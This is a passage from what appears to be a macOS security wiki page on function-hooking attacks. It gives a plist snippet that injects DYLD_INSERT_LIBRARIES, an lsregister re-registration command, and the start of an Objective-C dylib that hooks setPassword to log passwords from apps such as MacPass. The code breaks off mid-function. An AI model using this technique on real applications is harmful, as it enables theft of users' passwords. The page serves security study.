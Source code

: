 ## Hooking Attack Methodology

In this page different ways to hook functions were discussed. However, they involved **running code inside the process to attack**.

In order to do that the easiest technique to use is to inject a [Dyld via environment variables or hijacking](macos-library-injection/macos-dyld-hijacking-and-dyld\_insert\_libraries.md). However, I guess this could also be done via [Dylib process injection](macos-ipc-inter-process-communication/#dylib-process-injection-via-task-port).

However, both options are **limited** to **unprotected** binaries/processes. Check each technique to learn more about the limitations.

However, a function hooking attack is very specific, an attacker will do this to **steal sensitive information from inside a process** (if not you would just do a process injection attack). And this sensitive information might be located in user downloaded Apps such as MacPass.

So the attacker vector would be to either find a vulnerability or strip the signature of the application, inject the **`DYLD_INSERT_LIBRARIES`** env variable through the Info.plist of the application adding something like:

```xml
<key>LSEnvironment</key>
<dict>
    <key>DYLD_INSERT_LIBRARIES</key> 
    <string>/Applications/Application.app/Contents/malicious.dylib</string>
</dict>
```

and then **re-register** the application:

{% code overflow="wrap" %}
```bash
/System/Library/Frameworks/CoreServices.framework/Frameworks/LaunchServices.framework/Support/lsregister -f /Applications/Application.app
```
{% endcode %}

Add in that library the hooking code to exfiltrate the information: Passwords, messages...

{% hint style="danger" %}
Note that in newer versions of macOS if you **strip the signature** of the application binary and it was previously executed, macOS **won't be executing the application** anymore.
{% endhint %}

#### Library example

{% code overflow="wrap" %}
```objectivec
// gcc -dynamiclib -framework Foundation sniff.m -o sniff.dylib

// If you added env vars in the Info.plist don't forget to call lsregister as explained before

// Listen to the logs with something like:
// log stream --style syslog --predicate 'eventMessage CONTAINS[c] "Password"'

#include <Foundation/Foundation.h>
#import <objc/runtime.h>

// Here will be stored the real method (setPassword in this case) address
static IMP real_setPassword = NULL;

static BOOL custom_setPassword(id self, SEL _cmd, NSString* password, NSURL* keyFileURL)
{
    // Function that will log the password and call the original setPassword(pass, file_path) method
    NSLog(@"[+] Password is: %@", password);
    
```